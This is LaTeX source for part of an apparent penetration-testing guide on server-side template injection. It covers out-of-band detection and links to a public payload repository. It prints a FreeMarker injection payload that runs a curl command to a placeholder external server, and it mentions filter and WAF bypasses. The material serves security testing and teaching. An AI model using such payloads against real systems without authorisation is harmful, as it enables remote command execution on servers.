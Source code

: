 \documentclass{article}
\begin{document}
\subsubsection{Out-of-Band (OAST)}
Force the server to make an external request to a server you control (like Burp Collaborator or Interactsh).
\begin{itemize}
    \item \textbf{Java (FreeMarker):} \texttt{\$\{ "freemarker.template.utility.Execute"?new()("curl http://YOUR-SERVER.com") \}}
\end{itemize}

\begin{dangerbox}[Warning]
Blind SSTI is significantly harder to confirm. Always establish a "baseline" response time before testing time-based payloads to avoid false positives.
\end{dangerbox}

\section{Essential Resources}
For a comprehensive and regularly updated list of payloads, bypasses, and engine-specific techniques, refer to the following repository:

\begin{infobox}
\textbf{PayloadsAllTheThings - SSTI Guide} \\
The most complete collection of SSTI payloads for every known template engine. \\
\href{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection}{Click here to visit the GitHub Repository}
\end{infobox}

\subsection*{Why this is important to read:}
\begin{itemize}
    \item \textbf{Continuous Updates:} New bypasses for modern versions of Jinja2, Twig, and Java engines are added frequently.
    \item \textbf{Comprehensive Bypasses:} It includes techniques for environments where common characters like \texttt{.}, \texttt{\_}, or \texttt{[]} are blocked.
    \item \textbf{Filter Evasion:} Dedicated sections for WAF/Filter bypasses using alternative syntax.
\end{itemize}
\end{document}
